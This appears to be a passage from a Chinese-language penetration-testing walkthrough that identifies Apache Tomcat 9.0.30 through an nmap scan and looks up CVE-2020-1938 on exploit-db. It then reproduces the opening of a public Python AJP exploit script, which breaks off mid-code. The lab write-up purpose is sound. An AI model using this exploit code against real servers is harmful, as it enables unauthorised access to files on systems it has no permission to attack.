 nmap

[![](assets/1706771526-44399fd57ad8707e1776ac1c7b8050f0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129223016-ebd93bde-beb2-1.png)

## 漏洞分析

这里知道了 Apache Tomcat 的信息，从 exploit 找一下对应 poc

找到[https://www.exploit-db.com/exploits/48143](https://www.exploit-db.com/exploits/48143) ，发现 CVE-2020-1938 适用于 Apache Tomcat 9.0.30

```bash
#!/usr/bin/python3
# Author: 00theway

import socket
import binascii
import argparse
import urllib.parse

debug = False


def log(type, *args, **kwargs):
    if type == 'debug' and debug == False:
        return
    elif type == 'append' and debug == True:
        return
    elif type == 'append':
        kwargs['end'] = ''
        print(*args, **kwargs)
        return
    print('[%s]' % type.upper(), *args, **kwargs)


class ajpRequest(object):
    def __init__(self, request_url, method='GET', headers=[], attributes=[]):
        self.request_url = request_url
        self.method = method
        self.headers = headers
        self.attributes = attributes

    def method2code(self, method):
        methods = {
            'OPTIONS': 1,
            'GET': 2,
            'HEAD': 3,
            'POST': 4,
            'PUT': 5,
```